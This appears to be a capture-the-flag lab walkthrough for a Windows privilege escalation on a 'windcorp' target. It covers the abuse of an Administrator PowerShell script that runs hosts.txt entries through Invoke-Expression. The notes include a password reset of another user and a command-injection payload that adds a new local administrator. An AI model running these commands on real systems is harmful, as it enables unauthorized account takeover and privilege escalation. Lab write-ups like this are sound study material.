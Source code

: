 You have a reverse shell on the third and final target.

Start with some manual enumeration and hopefully come up with something workable!

#Winrm_Shell 
If you do some recon manually you'll find  a directory called `scripts` with two files:

![[Enumeration-20250501104418383.webp]]

The most interesting one is a `powershell` script named ``checkservers.ps1`` that belong to `administrator`.

Looking into the code you find out:
1. The script reads a file named `hosts.txt` owned by `brittanycr`.
	`get-content C:\Users\brittanycr\hosts.txt`
2. The ps1 script is executed every x time consuming the hosts.txt file and passing it’s content to `Invoke-Expression`.
```
# Read the File with the Hosts every cycle, this way to can add/remove hosts
# from the list without touching the script/scheduled task,
# also hash/comment (#) out any hosts that are going for maintenance or are down.
get-content C:\Users\brittanycr\hosts.txt | Where-Object {!($_ -match "#")} |
ForEach-Object {
    $p = "Test-Connection -ComputerName $_ -Count 1 -ea silentlycontinue"
    Invoke-Expression $p     <====================

```


> [!NOTE] Note
> So if we gain access to `brittanycr` account by changing it’s password and changing the content of `hosts.txt` file to our payload, we can get it executed as `Administrator`


## Enumerate privileges

#Winrm_Shell 
Run the following command to the privilege of the current user:

```
whoami /priv
```

![[Enumeration-20250501102940688.webp]]
Look at the groups.


```
whoami /groups
```

![[Enumeration-20250501103711570.webp]]

According to Microsoft.

![[Enumeration-20250501103845862.webp]]

It means that we can change user passwords.
## Changing brittanycr‘s password

#Winrm_Shell 
```
net user brittanycr SuperPassword123
```

![[Enumeration-20250501110149062.webp]]

> [!Note]
> You won't be able to log in via Evil-winrm with these credentials.

## Login to SMB

#Attacking_Machine 
Try to login via SMB.

```
smbclient //windcorp.thm0/users -U brittanycr
```

![[Enumeration-20250501111220432.webp]]

Go to brittanycr's directory and list the files.

```
cd brittanycr
dir
```

![[Enumeration-20250501111545260.webp]]

## Changing the content of `hosts.txt`

#smbclient  
- Download the hosts.txt file.
```
get hosts.txt
```

#Attacking_Machine 
- Add a new user to hosts.txt.
```
google.com
bing.com
yahoo.com
; net user iobreaker 'P+ssword123' /add; net localgroup Administrators iobreaker /add
```

#smbclient 
- Upload the file.
```
put hosts.txt
```

## crackmapexec

#Attacking_Machine 
Run crackmapexec.

```
cme winrm  fire.windcorp.thm -u 'iobreaker' -p 'P+ssword123'
```

![[Enumeration-20250502111301457.webp]]

So, now you'll be able to login with an adminstrator's group accouont.

**Next step:** [[Admin shell and Third Flag]]
